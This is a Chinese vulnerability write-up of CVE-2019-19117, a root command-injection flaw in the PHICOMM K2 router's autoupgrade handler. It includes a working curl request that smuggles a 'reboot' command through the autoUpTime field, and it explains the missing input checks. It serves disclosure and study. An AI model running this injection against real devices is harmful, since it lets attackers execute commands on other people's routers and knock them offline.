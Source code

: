 # （CVE-2019-19117）PHICOMM 远程代码执行

> 原文：[https://www.zhihuifly.com/t/topic/3395](https://www.zhihuifly.com/t/topic/3395)

# （CVE-2019-19117）PHICOMM 远程代码执行

## 一、漏洞简介

通过修改HTTP post请求中的内容，在根shell上远程执行命令。

## 二、漏洞影响

PHICOMM K2(PSG1218) V22.5.9.163

## 三、复现过程

受影响的源代码文件：/usr/lib/lua/luci/controller/admin/autoupgrade.lua

受影响的函数：save（）

### 漏洞详情

首先，在通过Web登录身份验证，会话劫持漏洞或弱凭据破解攻击以获取访问权限后，向设备发送精心制作的数据包

```
curl -i -s -k -v -X'POST'  -e "http://192.168.2.1/cgi-bin/luci/;stok=xxx/xxx/xxx/xxx" -b "sysauth=4a2c4bdba5fb1273ce62759fd42dba42" --data-binary "mode=1&autoUpTime=02%3A05|reboot" 'http://192.168.2.1/cgi-bin/luci/;stok=xxx/admin/xxx/xxx/xxx' 
```

在此http数据包中，我们将要执行“重新引导”的命令添加到数据包内容中。

![image](img/cbff0b1782fed475a58bbddc9946eefd.png)

我们可以看到，将'autoUpTime'的值直接分配给变量，而无需检查该值是否被恶意修改，然后发送给服务器。

![image](img/170b838385357ddab0218a8bcf30d126.png)

然后，服务器直接将数据附加到命令，而无需检查数据是否也被恶意修改，从而使攻击者想要执行的命令附加到该命令。

最后，路由器将执行命令“ reboot”，这将导致DoS。